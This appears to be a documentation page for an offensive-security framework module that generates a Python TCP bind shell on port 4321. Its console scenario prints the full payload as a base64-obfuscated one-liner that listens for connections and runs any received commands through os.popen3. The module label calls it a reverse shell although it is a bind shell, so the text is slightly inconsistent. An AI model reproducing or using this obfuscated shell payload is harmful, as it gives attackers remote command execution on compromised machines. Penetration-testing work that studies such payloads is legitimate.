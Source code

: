 ## Description

Module generates payload that creates interactive tcp bind shell by using python one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/python_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python tcp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/python_bind_tcp
rsf (Python Reverse TCP One-Liner) > set rport 4321
[+] rport => 4321
rsf (Python Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uYmluZCgoJzAuMC4wLjAnLDQzMjEpKQpzby5saXN0ZW4oMSkKc28sYWRkcj1zby5hY2NlcHQoKQp4PUZhbHNlCndoaWxlIG5vdCB4OgoJZGF0YT1zby5yZWN2KDEwMjQpCglzdGRpbixzdGRvdXQsc3RkZXJyLD1vcy5wb3BlbjMoZGF0YSkKCXN0ZG91dF92YWx1ZT1zdGRvdXQucmVhZCgpK3N0ZGVyci5yZWFkKCkKCXNvLnNlbmQoc3Rkb3V0X3ZhbHVlKQo='.decode('base64'))"
```
